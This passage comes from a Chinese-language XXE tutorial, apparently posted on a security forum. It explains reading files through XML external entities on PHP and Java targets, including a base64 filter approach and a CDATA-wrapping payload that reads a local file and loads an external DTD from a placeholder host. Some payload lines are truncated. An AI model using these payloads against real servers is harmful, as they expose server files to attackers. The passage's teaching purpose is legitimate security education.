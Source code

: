 ![image.png](https://shs3.b.qianxin.com/attack_forum/2023/11/attach-99db9c906895c502a15aadcf0d0a458de0d741db.png)

PHP环境下，使用file协议无法读取列目录

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/11/attach-d19d0e6962ac2db434892df9bf44bdd2b53816ef.png)

5、绕过特殊字符

在 XML 中，字符 "&lt;" 和 "&amp;" 是非法的，所以读取一些带有特殊字符的文件时，就会报错“元素内容必须由格式正确的字符数据或标记组成”。

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/11/attach-b01be125d1340b3873049a6c759085335fc78ab3.png)

如果目标环境是PHP的，这个时候就可以使用PHP协议，用base64编码去读取

```php
 ]>
```

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/11/attach-2cc943d54ab034d1dd34894e64b9168770b082ac.png)

在Java环境中，我们可以使用CDATA来读取包含特殊字符的文本数据，避免XML解析器对其进行解析。

CDATA部分用于包含可能会被XML解析器误解为标记的文本。比如，一段文本中包含"&lt;"或"&amp;"等字符，这些字符在XML中具有特殊含义，如果直接包含在XML文档中可能会导致解析错误。使用CDATA部分可以避免这种问题，因为CDATA部分中的所有内容都会被XML解析器忽略。

在Java中，我们可以使用以下方式将文本数据包含在CDATA部分中：

```php
String data = "<![CDATA[这里是文本数据]]>";
```

在这个例子中，"这里是文本数据"是包含在CDATA部分中的文本数据。当这段文本数据被XML解析器解析时，解析器会忽略CDATA部分，只将其中的内容当作普通的文本数据处理。

使用CDATA部分是一种在XML文档中包含特殊字符文本的有效方式。同时，在Java环境中，我们也可以利用这个特性来读取和处理这类文本数据。

**payload:**

```php
<?xml version="1.0" encoding="utf-8"?> 
   
<!ENTITY % goodies SYSTEM "file:///d:/test.txt">  
<!ENTITY % end "]]>">  
<!ENTITY % dtd SYSTEM "http://ip/1.dtd"> 
%dtd; ]> 

<roottag>&all;</roottag>
```

**1.dtd**

```php
<?xml version="1.0" encoding="UTF-8"?>  <!ENTITY all "%start;%goodies;%end;">
```

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/11/attach-e98e3f47aec1160a23119105d164352fbe0d5be9.png)

但是也只能读取一些简单的文本文件，如果文本中含有&amp;或%还是无法进行读取。

### 1.3.3、无回显
